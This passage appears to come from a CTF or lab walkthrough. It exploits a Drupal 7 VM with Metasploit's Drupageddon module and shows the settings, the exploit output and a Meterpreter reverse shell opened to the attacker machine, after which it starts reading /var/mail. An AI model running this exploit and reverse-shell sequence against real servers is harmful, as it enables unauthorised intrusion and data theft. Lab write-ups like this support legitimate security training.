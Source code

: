 We set the RHOST to the VM's IP address

    msf exploit(drupal_drupageddon) > set RHOST 10.0.2.4

We check our options

    :::text
    msf exploit(drupal_drupageddon) > show options

    Module options (exploit/multi/http/drupal_drupageddon):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOST      10.0.2.4         yes       The target address
      RPORT      80               yes       The target port
      SSL        false            no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                yes       The target URI of the Drupal installation
      VHOST                       no        HTTP server virtual host


    Payload options (php/meterpreter/reverse_tcp):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.0.2.15        yes       The listen address
      LPORT  4444             yes       The listen port


    Exploit target:

      Id  Name
      --  ----
      0   Drupal 7.0 - 7.31


We launch our exploit against the server and praise for a reverse shell:
    msf exploit(drupal_drupageddon) > exploit

    Started reverse TCP handler on 10.0.2.15:4444
    Testing page
    Creating new user ULMihKJWdb:giXrJOFefa
    Logging in as ULMihKJWdb:giXrJOFefa
    Trying to parse enabled modules
    Enabling the PHP filter module
    Setting permissions for PHP filter module
    Getting tokens from create new article page
    Calling preview page. Exploit should trigger...
    Sending stage (33721 bytes) to 10.0.2.4
    Meterpreter session 2 opened (10.0.2.15:4444 -> 10.0.2.4:52349) at 2016-05-10 16:56:46 +0200

## Second hint

Okay it works, we got a meterperter with the user `www-data`, let's follow the
hint a get a look to the e-mails:

    meterpreter ls /var/mail
    Listing: /var/mail
    ==================

